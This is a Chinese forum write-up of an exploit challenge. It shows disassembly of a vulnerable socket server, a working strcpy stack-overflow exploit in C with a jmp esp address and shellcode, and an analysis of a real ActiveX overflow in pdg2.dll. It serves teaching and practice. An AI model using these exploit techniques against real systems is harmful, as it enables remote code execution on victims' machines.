


# 辞旧迎新 exploit me 挑战赛我的答案

> 原文：[`www.pediy.com/kssd/pediy09/pediy09-357.htm`](https://www.pediy.com/kssd/pediy09/pediy09-357.htm)

> 提交时间已经过了，那么我就可以发帖子混篇精华了。首先我声明，溢出我是个门外汉，答案不一定正确，仅供参考。  
>   
> 首先看 A 题，打开 OD，看到 EP 处的代码  
>   
>   
>   
>  不用怀疑,它是标准的 VC6.0 生成的.OK,水话说完了 .  
> 我们直接来看看 main()函数的代码.  
>   
> 
> 代码:
> 
> ```
> 004010B0  /$  81EC B4030000 sub     esp, 3B4
> 004010B6  |.  8D8424 240200>lea     eax, dword ptr \[esp+224\]
> 004010BD  |.  55            push    ebp
> 004010BE  |.  50            push    eax                              ; /pWSAData
> 004010BF  |.  68 01010000   push    101                              ; |RequestedVersion = 101 (1.1.)
> 004010C4  |.  FF15 BC804000 call    dword ptr \[<&WS2\_32.#115>\]       ; \\WSAStartup
> 004010CA  |.  6A 00         push    0                                ; /Protocol = IPPROTO\_IP
> 004010CC  |.  6A 01         push    1                                ; |Type = SOCK\_STREAM
> 004010CE  |.  6A 02         push    2                                ; |Family = AF\_INET
> 004010D0  |.  FF15 C0804000 call    dword ptr \[<&WS2\_32.#23>\]        ; \\socket
> 004010D6  |.  8BE8          mov     ebp, eax
> 004010D8  |.  85ED          test    ebp, ebp
> 004010DA  |.  7D 33         jge     short 0040110F
> 004010DC  |.  68 00914000   push    00409100                         ;  ASCII "socket creating error!"
> 004010E1  |.  55            push    ebp                              ; /Arg1
> 004010E2  |.  B9 689A4000   mov     ecx, 00409A68                    ; |
> 004010E7  |.  E8 0C070000   call    004017F8                         ; \\exploit\_.004017F8
> 004010EC  |.  8BC8          mov     ecx, eax
> 004010EE  |.  E8 34030000   call    00401427
> 004010F3  |.  68 D0124000   push    004012D0
> 004010F8  |.  6A 0A         push    0A                               ; /Arg1 = 0000000A
> 004010FA  |.  8BC8          mov     ecx, eax                         ; |
> 004010FC  |.  E8 DF010000   call    004012E0                         ; \\exploit\_.004012E0
> 00401101  |.  8BC8          mov     ecx, eax
> 00401103  |.  E8 A8010000   call    004012B0
> 00401108  |.  6A 01         push    1
> 0040110A  |.  E8 430E0000   call    00401F52
> 0040110F  |>  68 611E0000   push    1E61                             ; /NetShort = 1E61
> 00401114  |.  66:C74424 0C >mov     word ptr \[esp+C\], 2              ; |
> 0040111B  |.  FF15 C4804000 call    dword ptr \[<&WS2\_32.#9>\]         ; \\ntohs
> 00401121  |.  6A 00         push    0                                ; /NetLong = 0
> 00401123  |.  66:894424 0E  mov     word ptr \[esp+E\], ax             ; |
> 00401128  |.  FF15 C8804000 call    dword ptr \[<&WS2\_32.#8>\]         ; \\ntohl
> 0040112E  |.  8D4C24 08     lea     ecx, dword ptr \[esp+8\]
> 00401132  |.  6A 10         push    10                               ; /AddrLen = 10 (16.)
> 00401134  |.  51            push    ecx                              ; |pSockAddr
> 00401135  |.  55            push    ebp                              ; |Socket
> 00401136  |.  894424 18     mov     dword ptr \[esp+18\], eax          ; |
> 0040113A  |.  FF15 CC804000 call    dword ptr \[<&WS2\_32.#2>\]         ; \\bind
> 00401140  |.  85C0          test    eax, eax
> 00401142  |.  74 24         je      short 00401168
> 00401144  |.  68 E0904000   push    004090E0                         ;  ASCII "binding stream socket error!"
> 00401149  |.  B9 689A4000   mov     ecx, 00409A68
> 0040114E  |.  E8 D4020000   call    00401427
> 00401153  |.  68 D0124000   push    004012D0
> 00401158  |.  6A 0A         push    0A                               ; /Arg1 = 0000000A
> 0040115A  |.  8BC8          mov     ecx, eax                         ; |
> 0040115C  |.  E8 7F010000   call    004012E0                         ; \\exploit\_.004012E0
> 00401161  |.  8BC8          mov     ecx, eax
> 00401163  |.  E8 48010000   call    004012B0
> 00401168  |>  53            push    ebx
> 00401169  |.  68 B8904000   push    004090B8                         ;  ASCII "\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*"
> 0040116E  |.  B9 689A4000   mov     ecx, 00409A68
> 00401173  |.  E8 AF020000   call    00401427
> 00401178  |.  68 D0124000   push    004012D0
> 0040117D  |.  6A 0A         push    0A                               ; /Arg1 = 0000000A
> 0040117F  |.  8BC8          mov     ecx, eax                         ; |
> 00401181  |.  E8 5A010000   call    004012E0                         ; \\exploit\_.004012E0
> 00401186  |.  8BC8          mov     ecx, eax
> 00401188  |.  E8 23010000   call    004012B0
> 0040118D  |.  68 94904000   push    00409094                         ;  ASCII "     exploit target server 1.0",TAB,"   "
> 00401192  |.  B9 689A4000   mov     ecx, 00409A68
> 00401197  |.  E8 8B020000   call    00401427
> 0040119C  |.  68 D0124000   push    004012D0
> 004011A1  |.  6A 0A         push    0A                               ; /Arg1 = 0000000A
> 004011A3  |.  8BC8          mov     ecx, eax                         ; |
> 004011A5  |.  E8 36010000   call    004012E0                         ; \\exploit\_.004012E0
> 004011AA  |.  8BC8          mov     ecx, eax
> 004011AC  |.  E8 FF000000   call    004012B0
> 004011B1  |.  68 B8904000   push    004090B8                         ;  ASCII "\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*"
> 004011B6  |.  B9 689A4000   mov     ecx, 00409A68
> 004011BB  |.  E8 67020000   call    00401427
> 004011C0  |.  68 D0124000   push    004012D0
> 004011C5  |.  6A 0A         push    0A                               ; /Arg1 = 0000000A
> 004011C7  |.  8BC8          mov     ecx, eax                         ; |
> 004011C9  |.  E8 12010000   call    004012E0                         ; \\exploit\_.004012E0
> 004011CE  |.  8BC8          mov     ecx, eax
> 004011D0  |.  E8 DB000000   call    004012B0
> 004011D5  |.  6A 04         push    4                                ; /Backlog = 4
> 004011D7  |.  55            push    ebp                              ; |Socket
> 004011D8  |.  FF15 D0804000 call    dword ptr \[<&WS2\_32.#13>\]        ; \\listen
> 004011DE  |.  8D5424 08     lea     edx, dword ptr \[esp+8\]
> 004011E2  |.  8D4424 1C     lea     eax, dword ptr \[esp+1C\]
> 004011E6  |.  52            push    edx                              ; /pAddrLen
> 004011E7  |.  50            push    eax                              ; |pSockAddr
> 004011E8  |.  55            push    ebp                              ; |Socket
> 004011E9  |.  C74424 14 100>mov     dword ptr \[esp+14\], 10           ; |
> 004011F1  |.  FF15 D4804000 call    dword ptr \[<&WS2\_32.#1>\]         ; \\accept
> 004011F7  |.  8BD8          mov     ebx, eax
> 004011F9  |.  83FB FF       cmp     ebx, -1
> 004011FC  |.  74 7F         je      short 0040127D
> 004011FE  |.  56            push    esi
> 004011FF  |.  57            push    edi
> 00401200  |>  B9 80000000   /mov     ecx, 80
> 00401205  |.  33C0          |xor     eax, eax
> 00401207  |.  8D7C24 34     |lea     edi, dword ptr \[esp+34\]
> 0040120B  |.  50            |push    eax                             ; /Flags => 0
> 0040120C  |.  F3:AB         |rep     stos dword ptr es:\[edi\]         ; |
> 0040120E  |.  8D4C24 38     |lea     ecx, dword ptr \[esp+38\]         ; |
> 00401212  |.  68 00020000   |push    200                             ; |BufSize = 200 (512.)
> 00401217  |.  51            |push    ecx                             ; |Buffer
> 00401218  |.  53            |push    ebx                             ; |Socket
> 00401219  |.  FF15 D8804000 |call    dword ptr \[<&WS2\_32.#16>\]       ; \\recv
> 0040121F  |.  8BF0          |mov     esi, eax
> 00401221  |.  85F6          |test    esi, esi
> 00401223  |.  7D 26         |jge     short 0040124B
> 00401225  |.  68 74904000   |push    00409074                        ;  ASCII "reading stream message erro!"
> 0040122A  |.  B9 689A4000   |mov     ecx, 00409A68
> 0040122F  |.  E8 F3010000   |call    00401427
> 00401234  |.  68 D0124000   |push    004012D0
> 00401239  |.  6A 0A         |push    0A                              ; /Arg1 = 0000000A
> 0040123B  |.  8BC8          |mov     ecx, eax                        ; |
> 0040123D  |.  E8 9E000000   |call    004012E0                        ; \\exploit\_.004012E0
> 00401242  |.  8BC8          |mov     ecx, eax
> 00401244  |.  E8 67000000   |call    004012B0
> 00401249  |.  33F6          |xor     esi, esi
> 0040124B  |>  8D5424 34     |lea     edx, dword ptr \[esp+34\]
> 0040124F  |.  52            |push    edx
> 00401250  |.  E8 ABFDFFFF   |call    00401000
> 00401255  |.  83C4 04       |add     esp, 4
> 00401258  |.  85F6          |test    esi, esi
> 0040125A  |.^ 75 A4         |jnz     short 00401200
> 0040125C  |.  53            |push    ebx                             ; /Socket
> 0040125D  |.  FF15 DC804000 |call    dword ptr \[<&WS2\_32.#3>\]        ; \\closesocket
> 00401263  |.  8D4424 10     |lea     eax, dword ptr \[esp+10\]
> 00401267  |.  8D4C24 24     |lea     ecx, dword ptr \[esp+24\]
> 0040126B  |.  50            |push    eax                             ; /pAddrLen
> 0040126C  |.  51            |push    ecx                             ; |pSockAddr
> 0040126D  |.  55            |push    ebp                             ; |Socket
> 0040126E  |.  FF15 D4804000 |call    dword ptr \[<&WS2\_32.#1>\]        ; \\accept
> 00401274  |.  8BD8          |mov     ebx, eax
> 00401276  |.  83FB FF       |cmp     ebx, -1
> 00401279  |.^ 75 85         \\jnz     short 00401200
> 0040127B  |.  5F            pop     edi
> 0040127C  |.  5E            pop     esi
> 0040127D  |>  68 64904000   push    00409064                         ;  ASCII "accept error!"
> 00401282  |.  B9 689A4000   mov     ecx, 00409A68
> 00401287  |.  E8 9B010000   call    00401427
> 0040128C  |.  68 D0124000   push    004012D0
> 00401291  |.  6A 0A         push    0A                               ; /Arg1 = 0000000A
> 00401293  |.  8BC8          mov     ecx, eax                         ; |
> 00401295  |.  E8 46000000   call    004012E0                         ; \\exploit\_.004012E0
> 0040129A  |.  8BC8          mov     ecx, eax
> 0040129C  |.  E8 0F000000   call    004012B0
> 004012A1  |.  FF15 E0804000 call    dword ptr \[<&WS2\_32.#116>\]       ; \WSACleanup
> 004012A7  |.  5B            pop     ebx
> 004012A8  |.  5D            pop     ebp
> 004012A9  |.  81C4 B4030000 add     esp, 3B4
> 004012AF  \\.  C3            retn
>   
> ```
> 
>   可以发现这是一个网络服务程序,它将客户端传过来的字符串显示在控制台上.  
> http://topic.csdn.net/t/20011213/21/420176.html  
> 具体的 VC 代码跟这篇差不了多少.  
>   
> 先随便写一个客户端代码假巴意思发点数据过去,发现最终处理的函数在这里(整个 overflowserver.cpp 就 2 个函数,一个 overflowfunc,一个 main)  
> ![名称:  2.JPG
> 查看次数: 270
> 文件大小:  75.6 KB  
>   
> 进去之后这个函数的代码如下:  
>   
> 00401000 >/$  81EC C8000000 sub     esp, 0C8  
> 00401006  |.  83C9 FF       or      ecx, FFFFFFFF  
> 00401009  |.  33C0          xor     eax, eax  
> 0040100B  |.  8D5424 00     lea     edx, dword ptr \[esp\]  
> 0040100F  |.  56            push    esi  
> 00401010  |.  57            push    edi  
> 00401011  |.  8BBC24 D40000>mov     edi, dword ptr \[esp+D4\]  
> 00401018  |.  68 4C904000   push    0040904C                         ;  ASCII "\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*"  
> 0040101D  |.  F2:AE         repne   scas byte ptr es:\[edi\]  
> 0040101F  |.  F7D1          not     ecx  
> 00401021  |.  2BF9          sub     edi, ecx  
> 00401023  |.  8BC1          mov     eax, ecx  
> 00401025  |.  8BF7          mov     esi, edi  
> 00401027  |.  8BFA          mov     edi, edx  
> 00401029  |.  C1E9 02       shr     ecx, 2  
> 0040102C  |.  F3:A5         rep     movs dword ptr es:\[edi\], dword p>  
> 0040102E  |.  8BC8          mov     ecx, eax  
> 00401030  |.  83E1 03       and     ecx, 3  
> 00401033  |.  F3:A4         rep     movs byte ptr es:\[edi\], byte ptr>  
>   
> 不用说了,标准的 strcpy 函数,没有 GS,没有异常处理,算是入门级的题目了,提交的人估计不会少,不知道能不能骗到书...  
>   
> 言归正传.  
>   
> 我们先计算一下,我们的数据要构造多长才能 fuck 返回地址.上面贴的那段代码首先先 sub C8,然后保存两个寄存器(push 0040904C 不算,第一个函数 retn 4),加起来等于 D0,也就是说构造 200 个字节就可以覆盖缓冲区.  
>   
> 然后再找一个跳板.我就不说了怎么找了,不然太湿了.  
>   
> 我找的 jmp esp,地址是 0x7C961EED.写在 196 字节之后,后面就可以写点实际的代码了.  
> shellcode 我不想写了,直接操的 failwest 的.  
>   
> 0013FBBC    FC              cld  
> 0013FBBD    68 6A0A381E     push    1E380A6A  
> 0013FBC2    68 6389D14F     push    4FD18963  
> 0013FBC7    68 3274910C     push    0C917432  
> 0013FBCC    8BF4            mov     esi, esp  
> 0013FBCE    8D7E F4         lea     edi, dword ptr \[esi-C\]  
> 0013FBD1    33DB            xor     ebx, ebx  
> 0013FBD3    B7 04           mov     bh, 4  
> 0013FBD5    2BE3            sub     esp, ebx  
> 0013FBD7    66:BB 3332      mov     bx, 3233  
> 0013FBDB    53              push    ebx  
> 0013FBDC    68 75736572     push    72657375  
> 0013FBE1    54              push    esp  
> 0013FBE2    33D2            xor     edx, edx  
> 0013FBE4    64:8B5A 30      mov     ebx, dword ptr fs:\[edx+30\]  
> 0013FBE8    8B4B 0C         mov     ecx, dword ptr \[ebx+C\]  
> 0013FBEB    8B49 1C         mov     ecx, dword ptr \[ecx+1C\]  
> 0013FBEE    8B09            mov     ecx, dword ptr \[ecx\]  
> 0013FBF0    8B69 08         mov     ebp, dword ptr \[ecx+8\]  
> 0013FBF3    AD              lods    dword ptr \[esi\]  
> 0013FBF4    3D 6A0A381E     cmp     eax, 1E380A6A  
> 0013FBF9    75 05           jnz     short 0013FC00  
> 0013FBFB    95              xchg    eax, ebp  
> 0013FBFC    FF57 F8         call    dword ptr \[edi-8\]  
> 0013FBFF    95              xchg    eax, ebp  
> 0013FC00    60              pushad  
> 0013FC01    8B45 3C         mov     eax, dword ptr \[ebp+3C\]  
> 0013FC04    8B4C05 78       mov     ecx, dword ptr \[ebp+eax+78\]  
> 0013FC08    03CD            add     ecx, ebp  
> 0013FC0A    8B59 20         mov     ebx, dword ptr \[ecx+20\]  
> 0013FC0D    03DD            add     ebx, ebp  
> 0013FC0F    33FF            xor     edi, edi  
> 0013FC11    47              inc     edi  
> 0013FC12    8B34BB          mov     esi, dword ptr \[ebx+edi\*4\]  
> 0013FC15    03F5            add     esi, ebp  
> 0013FC17    99              cdq  
> 0013FC18    0FBE06          movsx   eax, byte ptr \[esi\]  
> 0013FC1B    3AC4            cmp     al, ah  
> 0013FC1D    74 08           je      short 0013FC27  
> 0013FC1F    C1CA 07         ror     edx, 7  
> 0013FC22    03D0            add     edx, eax  
> 0013FC24    46              inc     esi  
> 0013FC25  ^ EB F1           jmp     short 0013FC18  
> 0013FC27    3B5424 1C       cmp     edx, dword ptr \[esp+1C\]  
> 0013FC2B  ^ 75 E4           jnz     short 0013FC11  
> 0013FC2D    8B59 24         mov     ebx, dword ptr \[ecx+24\]  
> 0013FC30    03DD            add     ebx, ebp  
> 0013FC32    66:8B3C7B       mov     di, word ptr \[ebx+edi\*2\]  
> 0013FC36    8B59 1C         mov     ebx, dword ptr \[ecx+1C\]  
> 0013FC39    03DD            add     ebx, ebp  
> 0013FC3B    032CBB          add     ebp, dword ptr \[ebx+edi\*4\]  
> 0013FC3E    95              xchg    eax, ebp  
> 0013FC3F    5F              pop     edi  
> 0013FC40    AB              stos    dword ptr es:\[edi\]  
> 0013FC41    57              push    edi  
> 0013FC42    61              popad  
> 0013FC43    3D 6A0A381E     cmp     eax, 1E380A6A  
> 0013FC48  ^ 75 A9           jnz     short 0013FBF3  
> 0013FC4A    33DB            xor     ebx, ebx  
> 0013FC4C    53              push    ebx  
> 0013FC4D    68 6F686F0A     push    0A6F686F  
> 0013FC52    68 62756768     push    68677562  
> 0013FC57    8BC4            mov     eax, esp  
> 0013FC59    53              push    ebx  
> 0013FC5A    50              push    eax  
> 0013FC5B    50              push    eax  
> 0013FC5C    53              push    ebx  
> 0013FC5D    FF57 FC         call    dword ptr \[edi-4\]  
> 0013FC60    53              push    ebx  
> 0013FC61    FF57 F8         call    dword ptr \[edi-8\]  
>   
> 这是我的攻击代码  
> 代码:
> 
> ```
> // exploitA.cpp : 定义控制台应用程序的入口点。
> //
> 
> #include "stdafx.h"
> #include <windows.h>
> #include <stdio.h>
> #include <winsock.h>
> #pragma comment(lib, "wsock32.lib")
> 
> BYTE shellcode\[0x200\] =
> {
>   "\\xFF\\xFF\\xFF\\xFF\\xFF\\xFF\\xFF\\xFF\\xFF\\xFF\\xFF\\xFF\\xFF\\xFF\\xFF\\xFF"
>   "\\xFF\\xFF\\xFF\\xFF\\xFF\\xFF\\xFF\\xFF\\xFF\\xFF\\xFF\\xFF\\xFF\\xFF\\xFF\\xFF"
>   "\\xFF\\xFF\\xFF\\xFF\\xFF\\xFF\\xFF\\xFF\\xFF\\xFF\\xFF\\xFF\\xFF\\xFF\\xFF\\xFF"
>   "\\xFF\\xFF\\xFF\\xFF\\xFF\\xFF\\xFF\\xFF\\xFF\\xFF\\xFF\\xFF\\xFF\\xFF\\xFF\\xFF"
>   "\\xFF\\xFF\\xFF\\xFF\\xFF\\xFF\\xFF\\xFF\\xFF\\xFF\\xFF\\xFF\\xFF\\xFF\\xFF\\xFF"
>   "\\xFF\\xFF\\xFF\\xFF\\xFF\\xFF\\xFF\\xFF\\xFF\\xFF\\xFF\\xFF\\xFF\\xFF\\xFF\\xFF"
>   "\\xFF\\xFF\\xFF\\xFF\\xFF\\xFF\\xFF\\xFF\\xFF\\xFF\\xFF\\xFF\\xFF\\xFF\\xFF\\xFF"
>   "\\xFF\\xFF\\xFF\\xFF\\xFF\\xFF\\xFF\\xFF\\xFF\\xFF\\xFF\\xFF\\xFF\\xFF\\xFF\\xFF"
>   "\\xFF\\xFF\\xFF\\xFF\\xFF\\xFF\\xFF\\xFF\\xFF\\xFF\\xFF\\xFF\\xFF\\xFF\\xFF\\xFF"
>   "\\xFF\\xFF\\xFF\\xFF\\xFF\\xFF\\xFF\\xFF\\xFF\\xFF\\xFF\\xFF\\xFF\\xFF\\xFF\\xFF"
>   "\\xFF\\xFF\\xFF\\xFF\\xFF\\xFF\\xFF\\xFF\\xFF\\xFF\\xFF\\xFF\\xFF\\xFF\\xFF\\xFF"
>   "\\xFF\\xFF\\xFF\\xFF\\xFF\\xFF\\xFF\\xFF\\xFF\\xFF\\xFF\\xFF\\xFF\\xFF\\xFF\\xFF"
>   "\\xFF\\xFF\\xFF\\xFF\\xFF\\xFF\\xFF\\xFF\\xED\\x1E\\x96\\x7C"
>   "\\xFC\\x68\\x6A\\x0A\\x38\\x1E\\x68\\x63\\x89\\xD1\\x4F\\x68\\x32\\x74\\x91\\x0C"
>   "\\x8B\\xF4\\x8D\\x7E\\xF4\\x33\\xDB\\xB7\\x04\\x2B\\xE3\\x66\\xBB\\x33\\x32\\x53"
>   "\\x68\\x75\\x73\\x65\\x72\\x54\\x33\\xD2\\x64\\x8B\\x5A\\x30\\x8B\\x4B\\x0C\\x8B"
>   "\\x49\\x1C\\x8B\\x09\\x8B\\x69\\x08\\xAD\\x3D\\x6A\\x0A\\x38\\x1E\\x75\\x05\\x95"
>   "\\xFF\\x57\\xF8\\x95\\x60\\x8B\\x45\\x3C\\x8B\\x4C\\x05\\x78\\x03\\xCD\\x8B\\x59"
>   "\\x20\\x03\\xDD\\x33\\xFF\\x47\\x8B\\x34\\xBB\\x03\\xF5\\x99\\x0F\\xBE\\x06\\x3A"
>   "\\xC4\\x74\\x08\\xC1\\xCA\\x07\\x03\\xD0\\x46\\xEB\\xF1\\x3B\\x54\\x24\\x1C\\x75"
>   "\\xE4\\x8B\\x59\\x24\\x03\\xDD\\x66\\x8B\\x3C\\x7B\\x8B\\x59\\x1C\\x03\\xDD\\x03"
>   "\\x2C\\xBB\\x95\\x5F\\xAB\\x57\\x61\\x3D\\x6A\\x0A\\x38\\x1E\\x75\\xA9\\x33\\xDB"
>   "\\x53\\x68\\x6F\\x68\\x6F\\x0A\\x68\\x62\\x75\\x67\\x68\\x8B\\xC4\\x53\\x50\\x50"
>   "\\x53\\xFF\\x57\\xFC\\x53\\xFF\\x57\\xF8"
> };
> int \_tmain(int argc, \_TCHAR\* argv\[\])
> {
>   WORD version;
>   WSADATA wsaData;
>   int rVal=0;
> 
>   version = MAKEWORD(1,1);
> 
>   WSAStartup(version,(LPWSADATA)&wsaData);
> 
>   LPHOSTENT hostEntry;
> 
>   //store information about the server
>   hostEntry = gethostbyname("127.0.0.1");
> 
>   if(!hostEntry)
>   {
>     printf("Failed gethostbyname()");
>     WSACleanup();
>     return 0;
>   }
> 
>   //create the socket
>   SOCKET theSocket = socket(PF\_INET, SOCK\_STREAM, IPPROTO\_TCP);
> 
>   if(theSocket == SOCKET\_ERROR)
>   {
>     printf("Failed socket()");
>     return 0;
>   }
> 
>   //Fill in the sockaddr\_in struct
>   SOCKADDR\_IN serverInfo;
> 
>   serverInfo.sin\_family = PF\_INET;
>   serverInfo.sin\_addr = \*((LPIN\_ADDR)\*hostEntry->h\_addr\_list);
> 
>   serverInfo.sin\_port = htons(7777);
> 
>   rVal=connect(theSocket,(LPSOCKADDR)&serverInfo, sizeof(serverInfo));
>   if(rVal==SOCKET\_ERROR)
>   {
>     printf("Failed connect()");
>     return 0;
>   }
>   send(theSocket,(const char\*)shellcode,0x200,0);
>   return 0;
> }
>   
> ```
> 
>   然后再看第 2 题,第 2 题是个控件,目标是得找到位置,然后才能溢出.  
>   
> 我们先用 VS 对象浏览器看看都有哪些接口函数  
>   
>   
>   
> 函数名很有针对性,怎么看也不像是出题者出的,随便挑了个独特点的函数 GetRemoteFileTime 去 google 了一下,发现了 pdg2.dll,然后 pdg2 一下,发现了阅读器,然后阅读器一下,发现了 0day....  
>   
> 黑客防线 11 月刊上有一篇 超星阅读器 pdg2.dll ActiveX 栈溢出 0Day  
>   
> 网上是找不到这篇的资料了,不过有这一篇.  
> http://www.cnhacker.com/Hacker/Exploit/200711/t20071105\_2635.html  
>   
> 这一篇安全新闻是介绍这个漏洞是如何发生的  
>   
> http://xforce.iss.net/xforce/xfdb/38311  
>   
> ..............我其实不想做了,但是为了骗一本书我还是厚着脸皮做了.  
>   
> 这个漏洞发生在 Register 函数里面,另外这个控件漏洞肯定不少...  
>   
> 参考了 跟踪调试 COM 组件的接口(Edit by hklzt) 这一篇之后.知道了想 0D 这个控件的接口函数的话得在 oleaut32.dll 的 DispCallFunc 函数上下断..  
>   
> 下面是 Register 函数  
>   
> 代码:
> 
> ```
> 038301B0    55              push    ebp                              ; Register()
> 038301B1    8BEC            mov     ebp, esp
> 038301B3    81EC 00010000   sub     esp, 100
> 038301B9    8B45 0C         mov     eax, dword ptr \[ebp+C\]
> 038301BC    53              push    ebx
> 038301BD    8B5D 10         mov     ebx, dword ptr \[ebp+10\]
> 038301C0    56              push    esi
> 038301C1    85C0            test    eax, eax
> 038301C3    57              push    edi
> 038301C4    75 1A           jnz     short 038301E0
> 038301C6    85DB            test    ebx, ebx
> 038301C8    75 1E           jnz     short 038301E8
> 038301CA    8B45 14         mov     eax, dword ptr \[ebp+14\]
> 038301CD    8918            mov     dword ptr \[eax\], ebx
> 038301CF    33C0            xor     eax, eax
> 038301D1    8DA5 F4FEFFFF   lea     esp, dword ptr \[ebp-10C\]
> 038301D7    5F              pop     edi
> 038301D8    5E              pop     esi
> 038301D9    5B              pop     ebx
> 038301DA    8BE5            mov     esp, ebp
> 038301DC    5D              pop     ebp
> 038301DD    C2 1000         retn    10
> 038301E0    85DB            test    ebx, ebx
> 038301E2    0F84 DB000000   je      038302C3
> 038301E8    B9 40000000     mov     ecx, 40
> 038301ED    33C0            xor     eax, eax
> 038301EF    8DBD 00FFFFFF   lea     edi, dword ptr \[ebp-100\]
> 038301F5    85DB            test    ebx, ebx
> 038301F7    F3:AB           rep     stos dword ptr es:\[edi\]
> 038301F9    75 04           jnz     short 038301FF
> 038301FB    33F6            xor     esi, esi
> 038301FD    EB 2F           jmp     short 0383022E
> 038301FF    53              push    ebx
> 03830200    FF15 F8908D03   call    dword ptr \[<&KERNEL32.lstrlenW>\] ; kernel32.lstrlenW
> 03830206    8D7C00 02       lea     edi, dword ptr \[eax+eax+2\]
> 0383020A    8BC7            mov     eax, edi
> 0383020C    83C0 03         add     eax, 3
> 0383020F    24 FC           and     al, 0FC
> 03830211    E8 EAA10100     call    0384A400
> 03830216    8BF4            mov     esi, esp
> 03830218    6A 00           push    0
> 0383021A    6A 00           push    0
> 0383021C    57              push    edi
> 0383021D    56              push    esi
> 0383021E    6A FF           push    -1
> 03830220    53              push    ebx
> 03830221    6A 00           push    0
> 03830223    6A 00           push    0
> 03830225    C606 00         mov     byte ptr \[esi\], 0
> 03830228    FF15 F4908D03   call    dword ptr \[<&KERNEL32.WideCharTo>; kernel32.WideCharToMultiByte
> 0383022E    8BFE            mov     edi, esi
> 03830230    83C9 FF         or      ecx, FFFFFFFF
> 03830233    33C0            xor     eax, eax
> 03830235    8D95 00FFFFFF   lea     edx, dword ptr \[ebp-100\]
> 0383023B    F2:AE           repne   scas byte ptr es:\[edi\]
> 0383023D    F7D1            not     ecx
> 0383023F    2BF9            sub     edi, ecx
> 03830241    8BC1            mov     eax, ecx
> 03830243    8BF7            mov     esi, edi
> 03830245    8BFA            mov     edi, edx
> 03830247    C1E9 02         shr     ecx, 2
> 0383024A    F3:A5           rep     movs dword ptr es:\[edi\], dword p>
> 0383024C    8BC8            mov     ecx, eax
> 0383024E    83E1 03         and     ecx, 3
> 03830251    F3:A4           rep     movs byte ptr es:\[edi\], byte ptr>
> 03830253    8A85 00FFFFFF   mov     al, byte ptr \[ebp-100\]
> 03830259    84C0            test    al, al
> 0383025B    75 28           jnz     short 03830285
> 0383025D    BF B4088F03     mov     edi, 038F08B4                    ; ASCII "unRegister"
> 03830262    83C9 FF         or      ecx, FFFFFFFF
> 03830265    33C0            xor     eax, eax
> 03830267    8D95 00FFFFFF   lea     edx, dword ptr \[ebp-100\]
> 0383026D    F2:AE           repne   scas byte ptr es:\[edi\]
> 0383026F    F7D1            not     ecx
> 03830271    2BF9            sub     edi, ecx
> 03830273    8BC1            mov     eax, ecx
> 03830275    8BF7            mov     esi, edi
> 03830277    8BFA            mov     edi, edx
> 03830279    C1E9 02         shr     ecx, 2
> 0383027C    F3:A5           rep     movs dword ptr es:\[edi\], dword p>
> 0383027E    8BC8            mov     ecx, eax
> 03830280    83E1 03         and     ecx, 3
> 03830283    F3:A4           rep     movs byte ptr es:\[edi\], byte ptr>
> 03830285    8B75 08         mov     esi, dword ptr \[ebp+8\]
> 03830288    8D8D 00FFFFFF   lea     ecx, dword ptr \[ebp-100\]
> 0383028E    51              push    ecx
> 0383028F    8D8E C0000000   lea     ecx, dword ptr \[esi+C0\]
> 03830295    E8 F616FEFF     call    03811990
> 0383029A    8DBD 00FFFFFF   lea     edi, dword ptr \[ebp-100\]
> 038302A0    83C9 FF         or      ecx, FFFFFFFF
> 038302A3    33C0            xor     eax, eax
> 038302A5    8D96 D0460000   lea     edx, dword ptr \[esi+46D0\]
> 038302AB    F2:AE           repne   scas byte ptr es:\[edi\]
> 038302AD    F7D1            not     ecx
> 038302AF    2BF9            sub     edi, ecx
> 038302B1    8BC1            mov     eax, ecx
> 038302B3    8BF7            mov     esi, edi
> 038302B5    8BFA            mov     edi, edx
> 038302B7    C1E9 02         shr     ecx, 2
> 038302BA    F3:A5           rep     movs dword ptr es:\[edi\], dword p>
> 038302BC    8BC8            mov     ecx, eax
> 038302BE    83E1 03         and     ecx, 3
> 038302C1    F3:A4           rep     movs byte ptr es:\[edi\], byte ptr>
> 038302C3    8DA5 F4FEFFFF   lea     esp, dword ptr \[ebp-10C\]
> 038302C9    33C0            xor     eax, eax
> 038302CB    5F              pop     edi
> 038302CC    5E              pop     esi
> 038302CD    5B              pop     ebx
> 038302CE    8BE5            mov     esp, ebp
> 038302D0    5D              pop     ebp
> 038302D1    C2 1000         retn    10
>   
> ```
